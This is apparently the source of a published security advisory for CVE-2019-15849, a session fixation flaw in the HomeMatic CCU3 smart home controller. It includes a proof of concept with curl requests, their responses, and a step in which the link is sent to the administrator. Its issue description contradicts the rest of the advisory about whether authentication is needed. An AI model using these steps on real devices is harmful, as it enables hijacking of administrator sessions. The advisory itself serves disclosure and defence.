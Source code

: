 ```yaml
---
layout: post
title: "Session Fixation in HomeMatic CCU3"
date: 2019-09-14 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-15849"
cve_description: "HomeMatic CCU3 firmware 3.41.11 has a session fix vulnerability. An attacker can create a session ID and send it to the victim. After the victim log in to the WebUI, the attacker can use his session. The attacker could create a SSH login via the WebUI and easily compromise the system."
cve_affectedVersion: "3.41.11"
cvss: "7.4"
cvss_vector: "3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:N/A:N"
softwarePatchLink: "Update to the current version 3.47.15 or above"
---
```


## Overview

- Vulnerability: Session Fixation
- Vendor: eQ-3 AG
- Vendor Homepage: [https://www.eq-3.com/contact.html](https://www.eq-3.com/contact.html)
- Product: HomeMatic central CCU3
- Version: {{ page.cve_affectedVersion }}

## Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU3 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's [website](https://www.homematic-ip.com/produkte/detail/smart-home-zentrale-ccu3.html):
"The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). ..."

## Issue Description

While analyzing the implementation of the home automation system HomeMatic, one Session Fixation vulnerability has been identified, which can be exploited in order to display sensitive information. The vulnerability is in the central CCU3 firmware {{ page.cve_affectedVersion }}.

![Affected Version](/assets/CVE-2019-15849/CVE-2019-15849.HomeMatic.Version.JPG)

This vulnerability can be exploited by authenticated attackers with access to the web interface. The flaw allows the attacker to display secret files on the system.

The following **process flow** illustrates this approach:

### Get initial Session ID (SID)

1. Open WebUI login in browser: http://192.168.0.125/login.htm
2. HomeMatic will create and add the session ID to the URL parameter:

~~~ text
http://192.168.0.125/login.htm?sid=@s8JJ2bEJOr@
~~~

![Initial Session creation](/assets/CVE-2019-15849/CVE-2019-15849.HomeMatic.InitialSession.JPG)

### The session will not work without a successful login

1. To check this, execute the following **curl command** on the attacker site:

~~~ bash
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.0.125' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.0.125/pages/index.htm?sid=@s8JJ2bEJOr@&client=3' -H $'Content-Type: application/json' -H $'Content-Length: 84' -H $'Connection: close' \
    --data-binary $'{\"version\": \"1.1\", \"method\": \"Event.poll\", \"params\": {\"_session_id_\": \"Hv4TQtaXO8\"}}' \
    $'http://192.168.0.125/api/homematic.cgi'
~~~

The **curl Response** is:

~~~ http
HTTP/1.1 200 OK
CONTENT-TYPE: application/json; charset=utf-8
Content-Length: 156
Connection: close
Date: Sun, 01 Sep 2019 16:51:11 GMT
Server: lighttpd/1.4.50

{
  "version": "1.1",
  "result": null,
  "error": {
    "name": "JSONRPCError",
    "code": 400,
    "message": "access denied (\"GUEST\" needed 0)"
  }
}
~~~

In the JSON response you can see the message "access denied (\"GUEST\" needed 0)". This means the session is not valid yet.

### Get a active session with admin rights

~~~ bash
1. Send Link "http://192.168.0.125/login.htm?sid=@s8JJ2bEJOr@" to the administrator 
2. Wait for victim login ...
~~~

### Recheck if the session is valid yet (same request from step 2)

1. To check this, execute the following **curl command** on the attacker site:

~~~ bash
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.0.125' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.0.125/pages/index.htm?sid=@s8JJ2bEJOr@&client=3' -H $'Content-Type: application/json' -H $'Content-Length: 84' -H $'Connection: close' \
    --data-binary $'{\"version\": \"1.1\", \"method\": \"Event.poll\", \"params\": {\"_session_id_\": \"Hv4TQtaXO8\"}}' \
    $'http://192.168.0.125/api/homematic.cgi'
~~~

The **curl Response** is:

~~~ http
HTTP/1.1 200 OK
CONTENT-TYPE: application/json; charset=utf-8
Content-Length: 45
Connection: close
Date: Sun, 01 Sep 2019 16:49:29 GMT
Server: lighttpd/1.4.50
~~~

**Congratulations - Now you have a valid session**
![Initial Session creation](/assets/CVE-2019-15849/CVE-2019-15849.HomeMatic.LoggedIn.JPG)

## Impact

This vulnerability affects the confidentiality of the system. This allows an attacker to create and read the session ID's. If an attacker is aware of the security issue, he or she may will attack the system by sending the user (admin) a link with a session ID. After a successful login of the victim, the attacker can use his session to manipulate the system. With this vulnerability flow, a complete system compromise is possible.

## Remediation

In order to avoid this vulnerability, it's suggested to disable the WebUI of HomeMatic. The HomeMatic-WebUI have many other security issues.

{%if page.softwarePatchLink %}{{ site.softwarePatchText }}{{ page.softwarePatchLink }}{% else %}{{ "" }}{% endif %}

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: {{ page.cvss_vector }}

## Credit

- {{ site.owner }}

## Vulnerability Disclosure Timeline

- 2019-September-01: Discovered vulnerability
- 2019-September-04: Vendor Notification
- 2019-September-10: Vendor Response/Feedback
- 2019-September-14: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 {{ site.owner }} and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## License

{{ site.LicenseDisplay }}